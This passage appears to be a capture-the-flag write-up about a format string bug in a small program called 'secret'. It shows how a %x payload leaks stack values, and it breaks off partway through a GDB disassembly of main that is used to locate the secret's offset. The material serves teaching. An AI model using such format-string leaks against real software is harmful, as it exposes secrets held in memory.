From the source code, the vulnerability is on line 24. printf's first parameter is for format string. 
When the first parameter contains metacharacters like %x, %d, %s, %n, etc, these are treated as control data instead of user data.
printf will proceed to access values on the stack, printing them onto the screen.

```
$ ./secret 
Give me something to say!
%08x.%08x.%08x
00000040.f77955a0.08048792
Now tell my secret in hex! Secret: 
```

From the above, we can see 3 values on the stack just by inputting %x.
Since 'secret' is a local variable, its value is stored on the stack and is readable by the attacker.

The attacker just have to guess at which position variable is located and use it for authentication.

### GDB

Via reverse engineering, an attacker may not need to guess the position but accurately pinpoint which offset is the correct value.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x080485eb <+0>:	lea    ecx,[esp+0x4]
   0x080485ef <+4>:	and    esp,0xfffffff0
   0x080485f2 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080485f5 <+10>:	push   ebp
   0x080485f6 <+11>:	mov    ebp,esp
   0x080485f8 <+13>:	push   ecx
   0x080485f9 <+14>:	sub    esp,0x14
   0x080485fc <+17>:	sub    esp,0x8
   0x080485ff <+20>:	push   0x0
   0x08048601 <+22>:	push   0x80487d0
   0x08048606 <+27>:	call   0x80484b0 <open@plt>
   0x0804860b <+32>:	add    esp,0x10
   0x0804860e <+35>:	mov    DWORD PTR [ebp-0xc],eax
   0x08048611 <+38>:	cmp    DWORD PTR [ebp-0xc],0xffffffff
   0x08048615 <+42>:	jne    0x8048631 <main+70>
   0x08048617 <+44>:	sub    esp,0xc
   0x0804861a <+47>:	push   0x80487e0
   0x0804861f <+52>:	call   0x8048480 <puts@plt>
   0x08048624 <+57>:	add    esp,0x10
   0x08048627 <+60>:	mov    eax,0xffffffff
   0x0804862c <+65>:	jmp    0x8048731 <main+326>
   0x08048631 <+70>:	sub    esp,0x4
   0x08048634 <+73>:	push   0x4
   0x08048636 <+75>:	lea    eax,[ebp-0x10]
   0x08048639 <+78>:	push   eax
   0x0804863a <+79>:	push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:	call   0x8048440 <read@plt>
   0x08048642 <+87>:	add    esp,0x10
   0x08048645 <+90>:	cmp    eax,0x4
   0x08048648 <+93>:	je     0x8048664 <main+121>
   0x0804864a <+95>:	sub    esp,0xc
   0x0804864d <+98>:	push   0x804880e
   0x08048652 <+103>:	call   0x8048480 <puts@plt>
   0x08048657 <+108>:	add    esp,0x10
   0x0804865a <+111>:	mov    eax,0xffffffff
   0x0804865f <+116>:	jmp    0x8048731 <main+326>
   0x08048664 <+121>:	sub    esp,0xc
```